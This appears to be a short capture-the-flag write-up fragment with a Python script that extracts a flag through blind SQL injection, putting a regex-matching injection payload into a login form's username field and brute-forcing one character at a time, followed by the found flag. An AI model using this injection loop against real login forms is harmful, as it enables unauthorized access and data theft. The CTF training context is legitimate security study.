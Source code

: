 ```python
chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ_}'
flag = "ASCWG{"

while '}' not in flag:
    for c in chars: 
        burp0_data = {"username": f"test' or user ~ '^{flag+c}'--", "password": "test"}
        res = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
        print("Trying", burp0_data)
        if "Welcome" in res.text:
            flag += c
            print("Found", flag)
            break
        time.sleep(2)
```

![Untitled (8)](https://github.com/user-attachments/assets/ebda0497-8476-47e6-818b-de9737a0c23e)

FLAG: ASCWG{YEAH_YOU_DID_IT}
